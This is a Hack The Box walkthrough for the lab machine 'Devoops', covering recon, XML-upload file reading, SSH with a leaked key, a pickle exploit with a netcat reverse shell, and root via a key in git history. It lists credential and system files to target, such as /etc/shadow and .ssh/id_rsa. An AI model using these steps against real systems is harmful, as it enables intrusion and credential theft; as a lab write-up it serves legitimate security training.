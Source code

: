 # Devoops Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA devoops 10.10.10.91 -T4``

![image](https://user-images.githubusercontent.com/123066149/229831612-cde018e6-60b1-4efd-8133-e87d7ffa65c7.png)

``sleep 200; nmap -p- -sV -T4 -oA fulldevoops 10.10.10.91``

![image](https://user-images.githubusercontent.com/123066149/229831842-3092e3cf-fc9a-4837-bc2c-f38ef228bf46.png)

``gobuster dir -u http://10.10.10.91:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``

![image](https://user-images.githubusercontent.com/123066149/229832708-da79001a-2616-49ac-90c4-d5efcff2b2e3.png)

``gobuster dir -u http://10.10.10.91:5000/uploads/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x xml,txt,php,html,sh,py ``

# ${{\color{purple}Initial Foothold}}\ $

### We have a file upload :

![image](https://user-images.githubusercontent.com/123066149/229834429-3a0bb413-1509-437b-a2bf-d544d18f20e9.png)

### When i try to upload a regular file :

![image](https://user-images.githubusercontent.com/123066149/229835999-9a39a996-576b-4367-814c-2b56eb82ba72.png)

### When i try to upload an xml file :

content-type: ``application/xml;charset=UTF-8``

``<?xml version="1.0" encoding="UTF-8" standalone="no"?>``

``<root>``

``<Author>test</Author>``

``<Subject>test</Subject>``

``<Content>test</Content>``

``</root>``

![image](https://user-images.githubusercontent.com/123066149/229836802-9dbff7ba-ea15-4dcb-94d9-4d0caf63fbc5.png)

![image](https://user-images.githubusercontent.com/123066149/229838198-3c17956a-5592-4611-bfc9-14c47b21c705.png)

![image](https://user-images.githubusercontent.com/123066149/229838093-6430bfe8-46a6-4aaa-ba64-bd3d0e176386.png)

### Finding rsa private key

etc/passwd

/etc/hosts

/etc/group

/etc/resolv.conf

/etc/shadow

/home/[USERNAME]/.bash_history or .profile

/home/[USERNAME]/.bash_history 

/home/[USERNAME]/.profile

/home/[USERNAME]/.ssh/id_rsa

/home/[USERNAME]/.ssh/id_rsa

/home/[USERNAME]/.ssh/authorized_keys

/home/[USERNAME]/.id_rsa

/home/[USERNAME]/.authorized_keys

/home/[USERNAME]/ssh/authorized_keys

/home/[USERNAME]/ssh/id_rsa

![image](https://user-images.githubusercontent.com/123066149/229838526-d41545d3-e703-4dd7-9410-ce019413941c.png)

``chmod 600 privatekey.key``

``ssh -i privatekey.key roosa@10.10.10.91``

![image](https://user-images.githubusercontent.com/123066149/229840275-c205fe01-ba55-4e5d-aa24-eb3b77faca9e.png)


# ${{\color{purple}Exploitation}}\ $

### Other way :

``cat feed.py``

![image](https://user-images.githubusercontent.com/123066149/229841210-9f634116-c294-4bde-b53c-6ff184995a14.png)

``vi pickle_exploit.py``

![image](https://user-images.githubusercontent.com/123066149/229841462-c78f723b-60c9-440c-9c5e-1125374e130a.png)

``python2.7 pickle_exploit.py``

![image](https://user-images.githubusercontent.com/123066149/229841622-312f9e00-ef01-48ba-998e-3594cad070bc.png)

``nc -nlvp 1234``

![image](https://user-images.githubusercontent.com/123066149/229841762-d227f214-ef54-49dd-a43f-9c776d252ac2.png)

![image](https://user-images.githubusercontent.com/123066149/229841897-a35ebf33-6666-4048-81ab-18988830379f.png)

# ${{\color{purple}Privilege Escalation}}\ $

`` find . -name git``

`` find . -name .git``

![image](https://user-images.githubusercontent.com/123066149/229842575-d9c474e0-5868-4baf-82ff-798b742ea048.png)

``git log``

![image](https://user-images.githubusercontent.com/123066149/229842861-d11ea991-dad1-48ad-ab79-4b70c3df9e6a.png)

### Don't go in the .git directory :

![image](https://user-images.githubusercontent.com/123066149/229843514-e98717a1-ae59-40e2-8c25-497748a1010b.png)

``git diff d387abf63e05c9628a59195cec9311751bdb283f``

![image](https://user-images.githubusercontent.com/123066149/229843761-7deec5b6-e1fd-4b8b-acd4-8f5403f93316.png)

``chmod 600``

``ssh -i privatekey root@ip``

![image](https://user-images.githubusercontent.com/123066149/229844331-aef01eab-da3e-49df-8368-c1dc10b42269.png)

# ${{\color{purple}Points of Improvement}}\ $
